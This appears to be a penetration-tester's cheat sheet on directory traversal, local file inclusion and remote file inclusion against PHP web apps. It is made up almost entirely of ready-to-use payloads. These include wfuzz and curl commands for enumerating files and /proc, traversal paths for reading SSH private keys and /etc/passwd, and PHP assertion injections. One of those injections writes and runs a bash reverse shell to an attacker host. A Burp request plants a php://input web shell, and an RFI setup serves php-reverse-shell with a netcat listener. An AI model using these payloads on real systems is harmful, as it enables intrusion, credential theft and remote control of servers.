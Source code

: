 ### :open_file_folder: Directory Traversal

Check lists

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt

https://github.com/carlospolop/Auto_Wordlists/blob/main/custom_wordlists/file_inclusion_linux.txt


Enumerate files

```
wfuzz -c -w file_inclusion_linux.txt --hw 0 http://<target ip>/download.php?downloadurl=FUZZ
```

Attempt to read the SSH key

```
# check the type of the private key used for authentication
../../../../../home/<username>/.ssh/authorized_keys
../../../../../home/<username>/.ssh/id_rsa
../../../../../home/<username>/.ssh/id_ecdsa
../../../../../home/<username>/.ssh/id_dsa
```

Attempt to list the directory contents

```
../../../../../../../../../../../../../../../
```

The Apache configuration file can indicate the directory location of a webpage

```
/opt/apache2/conf/httpd.conf
```

### :open_file_folder: [Proc File System](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/)

```
wfuzz -u http://<target ip>/download.php?downloadurl=/proc/FUZZ/cmdline -z range,1-1000 --hw 1

curl http://<target ip>/download.php?downloadurl=/proc/824/cmdline --output service.txt
```

### :open_file_folder: LFI

PHP assertions

```shell
page=' and die(show_source('/etc/passwd')) or '
page=' and die(system('cat /etc/passwd')) or '
# url encode , page=<encode command string>, escape single quotes 
# page=' and die(system('echo \'/bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1\' > /tmp/revshell.sh && chmod 777 /tmp/revshell.sh && /bin/bash /tmp/revshell.sh')) or '
page=' and die(system('echo '%2Fbin%2Fbash -i >%26 %2Fdev%2Ftcp%2F<attacker ip>%2F<attacker port> 0>%261' > %2Ftmp%2Frevshell.sh %26%26 chmod 777 %2Ftmp%2Frevshell.sh %26%26 %2Fbin%2Fbash %2Ftmp%2Frevshell.sh')) or '%0A
```

Burp Suite

```
GET /site/index.php?page=php://input&cmd=id HTTP/1.1
Host: 192.168.0.100
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=2vqr9cj4hp7d2uva04de1352ro
Upgrade-Insecure-Requests: 1
Content-Length: 41

<?php echo shell_exec($_GET['cmd']); ?>
```

:star: PHP filter chain

https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT

https://ctftime.org/writeup/36071

### :open_file_folder: RFI

- method1 

    attacker

    ```shell
    # modify attcker ip and port, e.g., 192.168.10.100 4444
    locate php-reverse-shell
    # start http server
    sudo python3 -m http.server 80
    # listen on port 4444
    sudo nc -nlvp 4444
    ```

    target

    ```shell
    # vulnerability page
    /test.php?url=http://<attcker ip>:<attacker port>/php-reverse-shell.php
    ```

